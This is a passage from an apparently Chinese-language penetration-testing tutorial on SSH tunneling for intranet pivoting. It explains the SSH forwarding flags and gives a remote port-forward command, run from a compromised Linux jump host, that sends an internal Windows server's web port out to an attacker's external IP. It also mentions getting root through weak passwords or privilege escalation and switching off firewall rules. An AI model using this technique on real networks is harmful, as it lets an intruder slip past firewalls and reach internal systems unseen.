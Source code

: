 这里我们简单ping一下，然后再使用远程桌面来进行测试一下。

![image-20230606130011051](https://s2.loli.net/2023/06/06/iSOUsvePfDJc6bu.png)

可以看到我们这里读取一下网页信息，可以看到隧道建立成功了。

![image-20230606130825444](https://s2.loli.net/2023/06/06/cBP6lfT9U7ioN5u.png)

## SSH隧道技术

在内网中，几乎所有的Linux/UNIX服务器和网络设备都支持SSH协议。在一般情况下，SSH协议是被允许通过防火墙和边界设备的，所以经常被攻击者利用。同时，SSH协议的传输过程是加密的，所以我们很难区分合法的SSH会话和攻击者利用其他网络建立的隧道。攻击者使用SSH端口隧道突破防火墙的限制后，能够建立一些之前无法建立的TCP连接。

### 注意事项

使用SSH隧道技术一定是需要使用到Linux系统当作跳板机的，同时需要使用到root权限，所以条件上会有点苛刻，由于Windows上并没有SSH所以无法使用Windows主机作为跳板机来实现建立隧道。

同时最好跳板机上不要有过多的防火墙策略，也就是Linux内置的防火墙策略，如果有，网上有很多能够关策略的办法，但是都需要使用root权限。

### SSH隧道常用参数说明

-C：压缩传输，提高传输速度

-f：将SSH传输转入后台执行，不占用当前的Shell

-N：建立静默连接(建立了连接，但是看不到具体会话)

-g：允许远程主机连接本地用于转发的端口

-L：本地端口转发

-R：远程端口转发

-D：动态转发(SOCKS代理)

-P：指定SSH端口

### SSH隧道技术远程转发

这里的远程转发主要是以Linux系统作为跳板，将跳板机上访问的IP地址及端口流量转发至攻击机上的某个端口，从而实现攻击机访问本地的端口能够跳转访问到目标主机端口上的内容。

#### 环境准备

这里也攻击机也可以使用内网的IP，只要能与Linux跳板机通信即可。

```
攻击机:外网IP
Linux跳板机:192.168.10.20 
Windows服务器:192.168.10.150
```

#### Linux跳板机执行命令

这里呢，就是像上面提到的需要使用到root权限，确实就是比较麻烦的了，除非你运气好获取到的root是弱口令，或者一些提权漏洞，不然确实比较难实现ssh隧道建立，至于后面需要输入的密码，就是你攻击机的密码。

```
ssh -CfNg -R 1010:192.168.10.150:80 root@124.71.XX.62

1010 ##是攻击机端口(自定义)
192.168.10.150:80 ##是需要访问的地址
root@124.71.200.62 ##是攻击机地址
```
